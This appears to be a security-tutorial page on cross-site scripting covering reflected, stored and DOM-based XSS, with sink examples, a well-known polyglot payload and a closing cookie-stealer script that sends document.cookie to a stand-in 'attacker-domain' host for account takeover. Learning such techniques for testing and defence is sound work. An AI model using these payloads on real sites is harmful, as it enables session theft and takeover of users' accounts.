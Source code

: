 ```yaml
---
description: >-
  Stealing user cookies for account takeover is much better than popping an
  alert box.
---
```


# XSS

#### There are three types of XSS vulnerabilities reflected, stored, and DOM.

## <mark style="color:yellow;">Reflected</mark>&#x20;

User input is reflected in the html source, If done improperly an attacker could insert malicious payloads into the page.

#### Input Field

Just because your payload is reflected in the page doesn't mean it will immediately trigger, you might have to break out of a few tags to get the payload to work properly.

#### Event Attributes

applied to HTML tags for the execution of Javascript when certain events occur, for example, onclick, onblur, onmousehover, etc.

* by using them, we don’t need “<” or “>” tags.

EX: "Onfocus" event attr:

* When a user focuses on this input tag, the function will execute and an alert box will appear.

## <mark style="color:yellow;">Stored</mark>

#### What distinguishes stored XSS from reflected XSS?&#x20;

* stored XSS will be permanently stored somewhere while reflected XSS is not.

The XSS payload is stored in a (Database, JSON file, and XML File) and retrieved by the application.

* once a user visits the vulnerable endpoint the XSS payload will be retrieved and executed by the application.

#### Popular places to store user input:

* Email, Username, BIO, Address, Comments, Images, and Links.

## <mark style="color:yellow;">DOM Based</mark>

💡Note, If a javascript function is passed to the eval function it will be automatically executed before the eval function is run.

#### What distinguishes DOM-based from stored XSS and reflected XSS?&#x20;

* it happens client-side entirely within the browser.
* spotted by looking at the JavaScript source code.

When performing a code review people generally look for user-supplied input (source) and track it through the program until it gets executed (sink).

#### illustration

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Dom Based</p></figcaption></figure>

#### Sources

💡If the source is being paced to a dangerous sink you could have XSS.

A list of javascript sources can be modified by the user:

* document.URL, location.hash, Document.cookie, Location.pathname, location.href, location, document.baseURI, and document.documentURI

#### Sinks

The sinks are meant to be the points in the flow where data depending on sources is used in a potentially dangerous way resulting in the loss of the CIA triad.

If user-supplied input(source) is ever passed to a dangerous sink you probably have DOM-based XSS.

#### A list of dangerous sinks

<table><thead><tr><th width="237">Sink</th><th>Example</th></tr></thead><tbody><tr><td>Eval</td><td>eval(“Javascript Code” + alert(0))</td></tr><tr><td>Function</td><td>function(“Javascript Code” + alert(0))</td></tr><tr><td>SetTimeout</td><td>settimeout(“Javascript Code” + alert(0),1)</td></tr><tr><td>SetInterval</td><td>setinterval(“Javascript Code” + alert(0),1)</td></tr><tr><td>Document.write</td><td>document.write("html"+ “&#x3C;img src=/ onerror=alert(0)”)</td></tr><tr><td>Element.innerHTML</td><td>div.innerHTML = "htmlString"+ “&#x3C;img src=/ onerror=alert(0)”</td></tr></tbody></table>

## <mark style="color:green;">Polyglot</mark>

When testing for XSS you often have to break out of multiple tags to get a payload to trigger.

A famous XSS polyglot by “0xsobky” it can be used to trigger your xss payload on a multitude of scenarios:

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=a lert()//>\x3e
```

## <mark style="color:green;">Cookie Stealer</mark>

Cookies are used to store a user's authentication details.

* If an attacker steals this cookie by send it to the attacker's machine, they will be able to impersonate the victim giving them access to their account.

#### Exploitation

Modifying the “document.location” forcing the browser to navigate to an attackers webpage:

* Document.location = ” http://attacker-domain.com ”

Javascript "Document.cookie" Function used to retrieve a user's cookies.

Combining these two commands to grab the victims cookies and send them to the attackers machine:

```javascript
<script type="text/javascript">document.location='http://attacker-domain/cookiestealer?cookie='+document.cookie; </script> 
```

When the payload was executed it sent the users cookie to our server then cookie used to login as the victim user allowing us to fully compromise their account.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>victim cookie</p></figcaption></figure>
